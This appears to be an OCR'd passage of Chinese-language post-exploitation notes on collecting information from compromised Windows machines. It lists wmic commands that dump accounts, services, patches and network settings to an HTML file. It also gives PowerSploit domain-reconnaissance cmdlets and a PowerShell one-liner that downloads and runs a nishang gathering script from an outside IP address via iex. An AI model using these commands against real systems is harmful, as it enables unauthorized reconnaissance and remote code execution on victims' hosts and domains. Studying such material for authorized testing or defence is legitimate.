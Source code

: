```bash
wmic PROCESS get CSName,Description,ExecutablePath,ProcessId
/format:htable >> wmic.html
:: 服务
wmic SERVICE get
Caption,Name,PathName,ServiceType,Started,StartMode,StartName
/format:htable >> wmic.html
:: 用户帐号
wmic USERACCOUNT list full /format:htable >> wmic.html
:: 用户组
wmic GROUP list /format:htable >> wmic.html
:: 网络接口
wmic NICCONFIG where IPEnabled='true' get
Caption,DefaultIPGateway,Description,DHCPEnabled,DHCPServer,IP
Address,IPSubnet,MACAddress /format:htable >> wmic.html
:: 硬盘信息
wmic VOLUME get
Label,DeviceID,DriveLetter,FileSystem,Capacity,FreeSpace
/format:htable >> wmic.html
:: 网络共享信息
wmic NETUSE list full /format:htable >> wmic.html
:: 安装的Windows补丁
wmic qfe get Caption,Description,HotFixID,InstalledOn
/format:htable >> wmic.html
:: 启动运行程序
wmic STARTUP get Caption,Command,Location,User /format:htable
>> wmic.html
:: 安装的软件列表
wmic PRODUCT get
Description,InstallDate,InstallLocation,PackageCache,Vendor,Ve
rsion /format:htable >> wmic.html
:: 操作系统
wmic os get name,version,InstallDate,LastBootUpTime,LocalDateTime,Manufact urer,RegisteredUser,ServicePackMajorVersion,ServicePackMinorVersion,SystemDirectory /format:htable >> wmic.html
:: 时区信息
wmic Timezone get DaylightName,Description,StandardName /format:htable >> wmic.html
```

### Powershell收集信息

https://github.com/samratashok/nishang/blob/master/Gather/Get-Information.ps1

```bash
#FTP访问、共享连接、putty连接、驱动、应用程序、hosts 文件、进程、无线网络记录
powershell iex(new-object net.webclient).downloadstring('http://47.104.255.11:8000/Get-Information.ps1');Get-Information
```

https://github.com/PowerShellMafia/PowerSploit

```bash
Get-NetDomain: 获取当前用户所在域的名称
Get-NetUser: 获取所有用户的详细信息
Get-NetDomainController: 获取所有域控制器的信息
Get-NetComputer: 获取域内所有机器的详细信息
Get-NetOU: 获取域中的OU信息
Get-NetGroup: 获取所有域内组和组成员信息
Get-NetFileServer: 根据SPN获取当前域使用的文件服务器信息
Get-NetShare: 获取当前域内所有网络共享信息
Get-NetSession: 获取指定服务器的会话
Get-NetRDPSession: 获取指定服务器的远程连接
Get-NetProcess: 获取远程主机的进程
Get-UserEvent: 获取指定用户的日志
Get-ADObiect: 获取活动目录的对象
Get-NetGPO: 获取域内所有的组策略对象
Get-DomainPolicy: 获取域默认策略或域控制器策略
```